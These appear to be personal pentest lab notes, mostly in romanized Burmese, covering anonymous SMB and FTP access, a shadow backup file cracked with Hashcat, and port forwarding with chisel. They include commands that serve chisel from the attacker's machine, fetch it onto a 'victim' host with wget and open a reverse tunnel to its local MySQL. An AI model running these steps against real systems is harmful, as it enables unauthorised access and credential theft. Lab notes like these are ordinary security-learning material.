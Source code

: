 
[printers]     => file sharing loke dr ko pyaw dr

![[Pasted image 20230110220048.png]]


------------------------------------

ftp mar vlun shi dal   => but smb  mar lal vlun shi dal => smb ko use bee ftp ko attack dar

ftp vlun  => site 
smb => annonymous user




==>  /var/backups/shadow.bak    => var -> backups mr important datas twe shi dal => de kaung so root permission net run nay dar

![[Pasted image 20230110222655.png]]


Hashcat

![[Pasted image 20230110224445.png]]



----


3 types of port forwarding 

-> local
-> dynamic
-> remote


---
netstat -antp   ======> bal port twe run nay lal kyi dar  ****



---

Tunnel Port Forwarding

chisel   ->  download chisel that compate with your os version(i use amd 64)

( vitim mar yaw ko bar ko yaw chisel run nay ya mal)

python3 -m http.server    -> in my machine

wget http://192.168.99.116:8000/chisel  -> victim machine

./chisel  -> run


=====>  Chisel Command

chisel server -p 10000 --reverse    -> in my kali machine

./chisel client 192.168.99.116:10000 R:3306:127.0.0.1:3306    => client machine

netstat -antp   -> check with this one run or not

 mysql -h 127.0.0.1 -u librenms -p   ->  go go






